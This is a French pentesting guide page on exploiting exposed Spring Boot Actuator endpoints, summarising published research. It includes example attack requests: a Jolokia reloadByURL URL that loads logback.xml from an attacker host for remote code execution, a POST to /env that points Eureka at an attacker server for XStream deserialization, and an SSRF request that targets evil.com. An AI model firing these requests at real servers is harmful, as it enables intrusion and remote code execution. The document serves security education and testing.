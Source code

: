 # Spring Actuators

{{#include ../../banners/hacktricks-training.md}}

## **Bypass d'authentification Spring**

<figure><img src="../../images/image (927).png" alt=""><figcaption></figcaption></figure>

**Provenance** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## Exploitation des Actuators Spring Boot

**Consultez le post original sur** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Points Clés :**

- Les Actuators Spring Boot enregistrent des points de terminaison tels que `/health`, `/trace`, `/beans`, `/env`, etc. Dans les versions 1 à 1.4, ces points de terminaison sont accessibles sans authentification. À partir de la version 1.5, seuls `/health` et `/info` sont non sensibles par défaut, mais les développeurs désactivent souvent cette sécurité.
- Certains points de terminaison des Actuators peuvent exposer des données sensibles ou permettre des actions nuisibles :
- `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, et `/heapdump`.
- Dans Spring Boot 1.x, les actuators sont enregistrés sous l'URL racine, tandis que dans 2.x, ils se trouvent sous le chemin de base `/actuator/`.

### **Techniques d'Exploitation :**

1. **Exécution de Code à Distance via '/jolokia'** :
- Le point de terminaison de l'actuator `/jolokia` expose la bibliothèque Jolokia, qui permet un accès HTTP aux MBeans.
- L'action `reloadByURL` peut être exploitée pour recharger les configurations de journalisation à partir d'une URL externe, ce qui peut conduire à un XXE aveugle ou à une Exécution de Code à Distance via des configurations XML élaborées.
- URL d'exploit exemple : `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Modification de Configuration via '/env'** :

- Si les bibliothèques Spring Cloud sont présentes, le point de terminaison `/env` permet de modifier les propriétés environnementales.
- Les propriétés peuvent être manipulées pour exploiter des vulnérabilités, telles que la vulnérabilité de désérialisation XStream dans le serviceURL Eureka.
- Exemple de requête POST d'exploit :

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```

3. **Autres Paramètres Utiles** :
- Des propriétés comme `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, et `spring.datasource.tomcat.max-active` peuvent être manipulées pour divers exploits, tels que l'injection SQL ou la modification des chaînes de connexion à la base de données.

### **Informations Supplémentaires :**

- Une liste complète des actuators par défaut peut être trouvée [ici](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt).
- Le point de terminaison `/env` dans Spring Boot 2.x utilise le format JSON pour la modification des propriétés, mais le concept général reste le même.

### **Sujets Connexes :**

1.  **Env + H2 RCE** :
- Les détails sur l'exploitation de la combinaison du point de terminaison `/env` et de la base de données H2 peuvent être trouvés [ici](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database).
2.  **SSRF sur Spring Boot par une Interprétation Incorrecte des Noms de Chemin** :

- La gestion des paramètres de matrice (`;`) par le framework Spring dans les noms de chemin HTTP peut être exploitée pour une Contre-attaque de Requête Côté Serveur (SSRF).
- Exemple de requête d'exploit :

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```

{{#include ../../banners/hacktricks-training.md}}
